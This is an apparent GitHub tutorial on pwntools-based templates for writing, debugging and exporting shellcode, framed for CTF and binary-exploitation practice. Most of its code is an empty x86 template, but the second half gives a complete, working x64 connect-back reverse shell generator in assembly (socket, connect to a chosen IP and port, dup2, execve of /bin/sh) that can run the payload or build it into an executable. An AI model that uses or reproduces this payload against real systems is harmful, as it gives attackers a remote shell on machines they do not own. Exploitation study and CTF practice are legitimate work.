


# Modern templates for Modern Shellcoding


## The (not so) boring introduction

Assembly coding is a dark art, that I have practiced for almost 35 years. (I remember with emotion Michael Abrash books, *Zen of Assembly Language* )

I started on `Z80` cpu, then `68000`, then `powerpc`, `x86`, `arm`, `mips`, `superh`, atmel `AVR`, `pic` microcontroller, `6502`, `8051`, recently `RiscV`, etc,etc...name it, I've coded on it...

Shellcoding can be seen as a subcategory of assembly coding, focused on binary exploitation, getting a shell, exfiltrating files, ..

Like every pwner , I have my own collection of shellcodes for various architecture for the most common tasks in binary exploitation, portbind shell, reverse connection shell, readfile, stager, etc.

Online you can find good collections of shellcodes on ShellStorm, or packetstormsecurity.com.

One problem that arise when using these online various shellcodes,
is that they use various assembly syntaxes, some use gas syntax, other nasm syntax, some are coded as C binary include, python binary hex string, various formats , incompatible between them...
for ARM some use shellcode with armv7 opcodes, or armv5, sometimes they will work, sometimes crashes, depending on the processor..

so to resume, for almost all these shellcodes you can find on internet, they are:

+ not easy to compile
+ not easy to debug
+ not easy modify
+ not easy run and test

## Developping a modern template

In recent years, [pwntools](https://docs.pwntools.com/en/stable/#]) has became the *de facto* standard tool for Pwners for developping exploits in python.

It has some good functions for developping shellcodes, it also come with some already made shellcodes

so for developping my own shellcodes, I have made various personnal templates that will try to resolve each of these problems.

And that will permit to develop more complex shellcodes, debug them, produce an usable EXE with the shellcode, run it , eventually passing arguments to them to customize them.
Then it will also dump them in various formats, ready to be used directly in your exploits.
All these tasks with a single reusable template..


## Prerequisites

First you will need to have a working installation of Pwntools

[Pwntools installation](https://docs.pwntools.com/en/stable/install.html)

if you want to work with other architectures, you will need to install qemu,

and the various cross-compilers necessary to compile binaries.

[Pwntools qemu](https://docs.pwntools.com/en/stable/qemu.html)

Then all the classic debugging tools will be helpful too, `gdb`, `strace`, etc..

last but not least , for debugging I will suggest you to install a gdb extension,

like [Pwndbg](https://github.com/pwndbg/pwndbg)

or [Gef](https://hugsy.github.io/gef/)  (with eventually gef-extras too...)

they will make your debugging life more easy..


So let's start with a X86 basic template, to see how to use it.


## X86 template example.

```python
from pwn import *
context.log_level = 'error'
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
#context.terminal = ["tmux", "splitw", "-h"]	# for command line terminal, launch tmux first before launching python code
context.update(arch="amd64", os="linux")

if (len(sys.argv) < 1):
  print('%s [RUN or GDB or EXE]' % (sys.argv[0]))
  exit(1)

def dumpit(shellc):
  print('shellcode length: {:d} bytes'.format(len(shellc)))
  # dump as hex number array
  print('\n\"\\x{}\"'.format('\\x'.join([format(b, '02x') for b in bytearray(shellc)])))
  # dump as C array
  print("\nunsigned char shellc[] = {{{}}};".format(", ".join([format(b, '#02x') for b in bytearray(shellc)])))
  # dump as hex array
  print('\npossibly problematic values are highlighted (00,0a,20)...\n')
  print(hexdump(shellc, highlight=b'\x0a\x20\x00'))


# put your shellcode here
shellc = asm('''
''')

dumpit(shellc)

if args.EXE:
  ELF.from_bytes(shellc).save('binary')

if args.RUN:
  p = run_shellcode(shellc)
  p.interactive()
elif args.GDB:
  p = debug_shellcode(shellc, gdbscript='''
    # set your pwndbg path here
    source ~/gdb.plugins/pwndbg/gdbinit.py
    context
  ''')
  p.interactive()
```


First let's see some of the configuration options you have,
at line 4, you have the `pwntools` settings `context.terminal` 
with it, you can define what terminal will be used for debugging.
in this example I used xfce4-terminal, and set it's exact position on screen, with his title, and with `zoom` option the font size..
Setting the onscreen position and size, is important for multiscreen setup, and for easier debugging. You can choose the terminal you want.

You can also use tmux if you want to debug in text terminal mode, with various split screen configurations

That `context.terminal` option will be used when you will call the template, with the GDB command line option.

In the last lines, you will have to set the `pwndbg` or `gef` config file path in the debug_shellcode()

Ok let's try what this `context.terminal` options does, we will try the graphical term, than the text terminal, that will need to launch `tmux` first.. We use a simple `execve` shellcode for the test:



so as you can see launching the template with GDB, will launch GDB in your choosen terminal program, for debugging your shellcode.

the command line options are:

+ *GDB* , will launch gdb in a terminal windows to debug your shellcode
+ *EXE*,  will produce an elf executable from your shelcode, ready to upload and execute, or to strace to debug it
+ *RUN*,  will run the shellcode

the EXE options could be use with GDB or RUN too..

the `dumpit()` function python function will indicate you the total size in bytes of your shellcode,
it will also output an binary hexdump of your shellcode, with bytes of hexadecimal values `00`, `0a`, `20` highlighted.
That values could be problematic for some string functions overflow (`strcpy`, `sprintf`, etc..), so you will know if eventually your shellcode contains some of them..
and last but not least...
the `dumpit()` function will output your shellcode as a python hex string, or as a C program binary array, that you can copy/paste directly in your exploit..

let's see this various options in action, still with a simple `execve` shellcode:



## Various architectures templates

 
+ [Template for x86 64 bits](./template.x64.py)
+ [Template for arm 32 bits](./template.arm.py)
+ [Template for arm 64 bit, aarch64](./template.aarch64.py)
+ [Template for mips](./template.mips.py)


## passing arguments to your shellcode, and example

So, for example, you can also give some arguments to your shellcode, to customize it.

As an example, I will share with you my `Connect Back Reverse Shellcode generator` that I use in ctf..

it's 65bytes in x64, and contains no zeroes:

you can use this syntax:

```sh
python3 connect.back.reverse.shell.x64.without.zeroes.py <IP> <PORT> [RUN|GDB|EXE]
```


you indicate the destination IP and port for connection, and you can RUN or DEBUG or produce an EXE..

+ [x64 Connect back shellcode generator](./connect.back.reverse.shell.x64.without.zeroes.py)

```python
from pwn import *
import ctypes, struct, sys, os, socket

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
#context.terminal = ["tmux", "splitw", "-h"]    # for command line terminal, launch tmux first before launching python code
context.log_level = 'error'

if (len(sys.argv) < 3):
  print('%s <IP> <PORT> [RUN]' % (sys.argv[0]))
  exit(1)

# define HOST & PORT here or in command line
IP, PORT = (sys.argv[1], int(sys.argv[2],10)) if len(sys.argv) > 2 else ('127.0.0.1', 12490)

def sockaddr():
    family = struct.pack('H', socket.AF_INET)
    portbytes = struct.pack('H', socket.htons(PORT))
    ipbytes = socket.inet_aton(IP)
    number = struct.unpack('Q', family + portbytes + ipbytes)
    number = -number[0]        #negate
    return hex((number + (1 << 64)) % (1 << 64))

def dumpit(shellc):
  print('shellcode length: {:d} bytes'.format(len(shellc)))
  # dump as hex number array
  print('\n\"\\x{}\"'.format('\\x'.join([format(b, '02x') for b in bytearray(shellc)])))
  # dump as C array
  print("\nunsigned char shellc[] = {{{}}};".format(", ".join([format(b, '#02x') for b in bytearray(shellc)])))
  # dump as hex array
  print('\nproblematic values are highlighted (00,0a,20) check your IP,port...\n')
  print(hexdump(shellc, highlight=b'\x0a\x20\x00'))

shellc = asm ('''
socket:
        push 41
        pop rax
        cdq
        push 2
        pop rdi
        push 1
        pop rsi
	syscall
connect:
	xchg eax,edi
	mov al,42
        mov rcx,%s
        neg rcx
        push rcx
        push rsp
        pop rsi
        mov dl,16
        syscall
dup2:
	push 3
        pop rsi
dup2_loop:
        mov al,33
        dec esi
        syscall
        jnz dup2_loop
execve:
	cdq
	push rdx
	mov rcx, 0x68732f2f6e69622f
	push rcx
	push rsp
	pop rdi
	mov al, 59
	syscall
''' % (sockaddr()))


dumpit(shellc)

if args.EXE:
  ELF.from_bytes(shellc).save('binary')

if args.RUN:
  p = run_shellcode(shellc)
  p.interactive()
elif args.GDB:
  p = debug_shellcode(shellc, gdbscript='''
    # set your pwndbg path here
    source ~/gdb.plugins/pwndbg/gdbinit.py
    context
  ''')
  p.interactive()
```


## conclusion

Well I hope these templates will be useful to you,

and that they will ease & speed up your shellcode coding and debugging tasks..

If you have an idea to ameliorate them, you can propose them, and if I like the idea, it will be added to the template..


